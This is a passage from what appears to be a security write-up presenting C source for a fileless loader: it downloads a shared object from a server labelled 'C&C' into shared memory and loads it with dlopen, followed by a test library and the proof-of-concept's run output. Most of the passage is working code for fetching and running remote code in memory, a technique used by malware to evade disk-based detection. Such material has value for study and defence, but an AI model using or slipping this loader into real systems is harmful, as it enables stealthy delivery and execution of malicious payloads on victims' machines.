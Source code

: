 ```c
		res = curl_easy_perform(curl);
		if (res != CURLE_OK && res != CURLE_WRITE_ERROR) {
			fprintf(stderr, "[-] cURL failed: %s\n", curl_easy_strerror(res));
			close(shm_fd);
			exit(-1);
		}
		curl_easy_cleanup(curl);
		return shm_fd;
	}
}

// Load the shared object
void load_so(int shm_fd) {
	char path[1024];
	void *handle;

	printf("[+] Trying to load Shared Object!\n");
	if (kernel_version() == 1) { //Funky way
		snprintf(path, 1024, "/proc/%d/fd/%d", getpid(), shm_fd);
	} else { // Not funky way :(
		close(shm_fd);
		snprintf(path, 1024, "/dev/shm/%s", SHM_NAME);
	}
	handle = dlopen(path, RTLD_LAZY);
	if (!handle) {
		fprintf(stderr,"[-] Dlopen failed with error: %s\n", dlerror());
	}
}

int main (int argc, char **argv) {
	char *url = "https://localhost:4443/module1.so";
	int fd;

	printf("[+] Trying to reach C&C & start download...\n");
	fd = download_to_RAM(url);
	load_so(fd);
	exit(0);
}
```

Just to test it we can use something like:

```c
/* Shared Library Test */

#include <stdio.h>

void __attribute__ ((constructor)) alert_init(void);

void alert_init(void) {
    fprintf(stderr,"[+] Module was loaded correctly\n");
}
```
```
$ ./poc
[+] Trying to reach C&C & start download...
[+] File Descriptor Shared Memory created!
[+] File written!
[+] Trying to load Shared Object!
[+] Module was loaded correctly
```
